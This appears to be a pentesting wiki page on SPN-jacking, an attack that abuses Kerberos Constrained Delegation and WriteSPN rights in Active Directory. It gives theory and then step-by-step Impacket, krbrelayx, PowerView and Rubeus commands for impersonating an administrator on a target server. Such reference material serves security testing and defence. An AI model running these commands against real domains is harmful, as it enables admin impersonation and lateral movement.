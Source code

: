 ## Theory
This attack combines `Kerberos Constrained delegation` abuse and `DACL` abuse. A service configured for `Kerberos Constrained Delegation (KCD)` can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (`Service Principal Names`) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to modify it, the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by Elad Shamir in this [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's ServicePrincipalName attribute (i.e. GenericAll, GenericWrite over the object orWriteProperty over the attribute (called WriteSPN since BloodHound 4.1), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (GenericAll, GenericWrite, etc.) over the SPN owner as well (a.k.a. "Live SPN-jacking"). Else, the SPN can be simply be added to the target object (a.k.a. "Ghost SPN-jacking").
## Exploit
!!! note
    In this scenario, we assume the Kerberos Constrained Delegation is configured with protocol transition in order to keep things simple. However, the SPN-jacking attack can be conducted on KCD without protocol transition as well (cf. RBCD technique).

    In this scenario (following Elad's post):

    - serverA is configured for KCD
    - serverB's SPN is listed in serverA's KCD configuration
    - serverC is the final target
    - attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
=== "UNIX-like"
    From UNIX-like machines, krbrelayx's addspn.py and Impacket example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).
    ```bash
    # 1. show SPNs listed in the KCD configuration
    findDelegation.py -user 'serverA$' "$DOMAIN"/"$USER":"$PASSWORD"

    # 2. remove SPN from ServerB if required (live SPN-jacking)
    addspn.py --clear -t 'ServerB$' -u "$DOMAIN"/"$USER" -p "$PASSWORD" 'DomainController.domain.local'

    # 3. add SPN to serverC
    addspn.py -t 'ServerC$' --spn "cifs/serverB" -u "$DOMAIN"/"$USER" -p "$PASSWORD" -c 'DomainController.domain.local'

    # 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
    getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:$PASSWORD'

    # 5. Edit the ticket's SPN (service class and/or hostname)
    tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
    ```
=== "Windows"
    From Windows machines, PowerView (PowerShell) and Rubeus (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).
    ```bash
    # 1. show SPNs listed in the KCD configuration
    Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

    # 2. remove SPN from ServerB if required (live SPN-jacking)
    Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

    # 3. add SPN to serverC
    Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

    # 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
    Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"$DOMAIN" /user:"$USER" /password:"$PASSWORD"

    # 5. Edit the ticket's SPN (service class and/or hostname)
    Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
    ```